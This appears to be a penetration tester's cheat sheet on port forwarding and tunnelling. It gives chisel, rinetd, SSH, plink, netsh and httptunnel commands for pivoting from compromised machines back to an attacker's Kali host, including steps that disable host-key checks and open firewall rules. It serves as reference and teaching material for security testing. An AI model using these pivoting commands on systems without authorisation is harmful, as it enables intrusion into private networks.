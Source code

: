 # Port Forwarding
## [chisel](https://github.com/jpillora/chisel)
```
# In Kali we start a server
kali@kali:/opt/chisel# ./chisel server -p 8000 --reverse

# In Windows we start a client, and we specify the port to forward
chisel.exe client 10.10.14.5:8000 R:910:localhost:910
```
## [rinetd](https://github.com/samhocevar/rinetd)
It is used for redirect any traffic received to an specific port
- In its config file we have to specify the bindaddress, bindport, connectaddress and connectport:
  ```bash
  kali@kali:~$ cat /etc/rinetd.conf
  ...
  # bindadress bindport connectaddress connectport
  0.0.0.0 80 216.58.207.142 80
  ...
  
  kali@kali:~$ sudo service rinetd restart
  ```
## SSH Local Port Forwarding
### Linux
```bash
kali@kali:~$ sudo ssh -N -L 0.0.0.0:1337:10.0.0.2:80 root@10.0.0.1
```
![image](https://user-images.githubusercontent.com/43812413/199309514-9603a925-3358-4fee-b289-955c892f04ed.png)

## SSH Remote Port Forwarding
### Linux
```bash
user1@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

```bash
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@10.11.0.4
```

#### SSH wothout password
```bash
# Compromised machine
mkdir keys
cd keys
ssh-keygen

#Kali
nano ~/.ssh/authorized_keys 
from="COMPRIMISED-IP",command="echo 'This account can only be used for port forwarding'", no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ubuntu

ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```
### Windows
#### plink
```bash
 cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
 ```


## SSH Dynamic Port Forwarding
- With the **-D** flag we can set a SOCKS4/5 application proxy
  ```
  kali@kali:~$ sudo ssh -N -D 127.0.0.1:8080 user1@10.11.0.128

  kali@kali:~$ cat /etc/proxychains.conf
  ...
  [ProxyList]
  # add proxy here ...
  # meanwile
  # defaults set to "tor"
  socks5 127.0.0.1 8080
  ```

- With the **-R** option, by not including a host after the port, ssh is instructed to create a SOCKS proxy on our Kali Server
  ```bash
  ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/.ssh/id_rsa kali@10.11.0.4
  ```
  

## NETSH Port Forwarding
- Installed by default on every modern version of Windows
- Windows system must have the *IP Helper* running and *IPv6* supports must be enabled.
```bash
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
```
- If theres is some rule in the Firewall that blocks the incoming connections to the specified port
```bash
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
``````

# Tunneling
## httptunnel
- It is used when only HTTP traffic is allowed. If we have a compromised machines we can:
  1. Set-up a SSH Port Forwarding in the target machine, that forwards the traffic to another machine in its private network
    ```bash
    www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 user1@127.0.0.1
    ```
  2. Set-up a HTTP Tunnel between our machine and the compromised one (the compromised one will re-forward the traffic to the port configured in the port forwarding)
    ```bash
    # at the compromised machine
    user1@debian:~$ hts --forward-port localhost:8888 1234
    
    # at our Kali
    htc --forward-port 8080 10.11.0.128:1234
    ```
## [chisel](https://github.com/jpillora/chisel)
```
# In Kali we start a server
kali@kali:/opt/chisel# ./chisel server -p 8000 --reverse

# In the Windows target machine we start a socks5 proxy tunnel
chisel.exe client 1.1.1.1:8000 R:socks
```
- Another way to create a socks tunnel:
  - `./chisel server -p 8000 --reverse` on local box, as usual.
  - `./chisel client 1.1.1.1:8000 R:8001:127.0.0.1:9001` on target box. Now anything I send to localhost:8001 on kali will forward to localhost:9001 on target.
  - `./chisel server -p 9001 --socks5` on target. Now I have a `chisel` server listening on 9001, in socks mode, and a way to get traffic to that port.
  - `./chisel client localhost:8001` socks on Kali box. This connection is forwarded through the first tunnel and connects to the `chisel` server running on the box. Now my local host is listening on port 1080 (default, can change that with arguments) and will send traffic to target, and then proxy it outbound.
  ![image](https://user-images.githubusercontent.com/43812413/206664069-a68cb7ac-7887-48ac-b4a8-dae124fb2b4a.png)


